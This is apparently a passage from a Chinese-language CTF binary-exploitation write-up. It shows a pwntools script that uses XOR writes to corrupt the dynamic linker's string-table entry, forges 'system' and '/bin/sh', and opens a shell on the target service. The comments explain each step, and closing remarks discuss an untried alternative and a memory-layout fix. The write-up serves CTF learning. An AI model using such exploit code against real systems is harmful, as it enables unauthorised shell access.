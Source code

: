 ```python
    for i in range(length):
        temp = chr(sh[i] ^ crypto[i])
        key += temp
    for i in range(length):
        ret += pow(256, i) * ord(key[i])
    return ret

def xorsend(offset, payload):
    io.sendline(offset)
    sleep(0.01)
    io.sendline(payload)
    sleep(0.01)

# io = remote("152.136.11.155",10039)
io = remote("localhost", 8000)
# io = process("./boss/src/attachment")
context.log_level = "debug"
io.send(b'sh\x00'.ljust(16, b'\x00'))
# passwd头部改成'sh\0'，绕过strncmp()
xorsend(str(0), str(key(b'sh\x00', b'dea')))
# print(io.recvline())
# 修改l->info[DT_STRTAB]的LSB，指向l->info[DT_DEBUG]
of = 0x1000*(-6)
offset1 = (0x7ffff7ffe348 - 0x7ffff7fb9000 + of) // 8 # 0x45348 0x4a348
xorsend(str(offset1), str(key(b'\xb8', b'\x78')))
# 在0x3e处开始伪造system\x00字样
offset2 = (0x7ffff7ffe118 - 0x7ffff7fb9000 + of) // 8 # 0x45118 0x4a118
xorsend(str(offset2 + 7), str(key(b'\x73\x79'.rjust(8, b'\x00'), b'\x00'*8)))

xorsend(str(offset2 + 8), str(key(b'\x73\x74\x65\x6d'.ljust(8, b'\x00'), b'\x00'*8)))
'''
0x7f1e1f0f1148: 0x0000000000000000      0x7379000000000000
0x7f1e1f0f1158: 0x000000007374656d      0x0000000000000000
'''
# 再把开头处改成'/bin/sh\0'，跳出循环
xorsend(str(0), str(key(b'/bin/sh\x00', b'sh\x00dbeef')))
io.interactive()
```
##### &emsp;&emsp;&emsp;第二种方法是出题人迪普朋克提示的，但没有想到怎么实现，```puts```和```system()```在libc中的偏移有16进制下的五位之多，由于无法泄露libc基址，异或最多修改三位，所以不知道具体怎么写。

##### &emsp;&emsp;&emsp;补：几天之后打通了远程，发现是nc远程启动的进程和docker容器内本地启动的进程内存布局不一样，```mmap()```分配的空间的位置不一样，把上面exp的地址改一下就可以。